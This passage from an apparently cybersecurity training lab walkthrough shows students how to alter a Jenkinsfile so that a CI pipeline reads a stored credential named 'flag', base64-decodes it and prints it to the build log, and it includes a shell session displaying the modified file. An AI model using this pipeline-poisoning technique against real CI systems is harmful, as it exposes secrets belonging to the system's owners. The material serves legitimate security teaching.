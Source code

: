 Students need to modify the contents of the `Jenkinsfile` using a text editor of their choice with the following:

```
pipeline { agent any

stages {
    stage('Install_Requirements') {
        steps {
            script {
                withCredentials([string(credentialsId: 'flag', variable: 'flag')]) {
                    def decodedFlag = sh(script: "echo \$flag | base64 -d", returnStatus: true)
                    if (decodedFlag == 0) {
                        echo "Decoded 'flag' value is: \$flag"
                    } else {
                        error "Failed to decode 'flag'"
                    }
                }
            }
        }
    }
}
}
```

The script above takes advantage of the `withCredentials` function and will try to get the flag variable through the `credenetialsId` string and will attempt to decode the flag.

Code: shell

```shell
cat Jenkinsfile
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~/app1]
└──╼ [★]$ cat Jenkinsfile 
pipeline { agent any

stages {
    stage('Install_Requirements') {
        steps {
            script {
                withCredentials([string(credentialsId: 'flag', variable: 'flag')]) {
                    def decodedFlag = sh(script: "echo \$flag | base64 -d", returnStatus: true)
                    if (decodedFlag == 0) {
                        echo "Decoded 'flag' value is: \$flag"
                    } else {
                        error "Failed to decode 'flag'"
                    }
                }
            }
        }
    }
}
}
```
